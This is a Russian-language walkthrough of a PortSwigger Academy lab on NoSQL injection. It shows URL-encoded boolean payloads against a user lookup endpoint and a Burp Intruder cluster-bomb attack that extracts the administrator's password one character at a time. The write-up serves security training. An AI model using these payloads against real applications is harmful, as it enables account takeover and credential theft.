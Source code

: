 логинимся под `wiener:peter` и в прокси хттп хистори видим интересный запрос
```
GET /user/lookup?user=wiener 
```
и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/1.png)
проверим на наличие уязвимости
```
GET /user/lookup?user=wiener'+'
```
что в урл кодировке выглядит как
```
GET /user/lookup?user=wiener'%2b'
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/2.png)
Введем 
```
GET /user/lookup?user=wiener' && '1'=='2
```
что в урле выглядит как
```
GET /user/lookup?user=wiener'+%26%26+'1'%3d%3d'2
```
и получим
```
{
  "message": "Could not find user"
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/3.png)
а если
```
GET /user/lookup?user=wiener' && '1'=='1
```
 что в урле выглядит как
```
GET /user/lookup?user=wiener'+%26%26+'1'%3d%3d'1
```
увидим 200 респонс статус код
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/4.png)
далее определим длину пароля
```
administrator' && this.password.length < 30 || 'a'=='b
```
```
GET /user/lookup?user=administrator'+%26%26+this.password.length+<+30+||+'a'%3d%3d'b
```
Далее приближаем длину пароля, и он <9 символов, а значит 8
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/5.png)
Далее подберем сам пароль
```
GET /user/lookup?user=administrator' && this.password[0]=='a
```
```
GET /user/lookup?user=administrator'+%26%26+this.password[0]%3d%3d'a
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/6.png)
отправим в `Intruder`
Выберем `Cluster bomb`
```
GET /user/lookup?user=administrator'+%26%26+this.password[§0§]%3d%3d'§a§
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/8.png)

и во втором пэйлоаде выберем `a-z`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/7.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/9.png)
отсортируем по длинне ответа 
и поймем, что наш пароль на administrator
`ihcufnln`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/10.png)
Залогинимся под данными кредами и получим уведомление что мы молодцы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/3.%20Exploiting%20NoSQL%20injection%20to%20extract%20data/pics%20for%20walktrough/11.png)
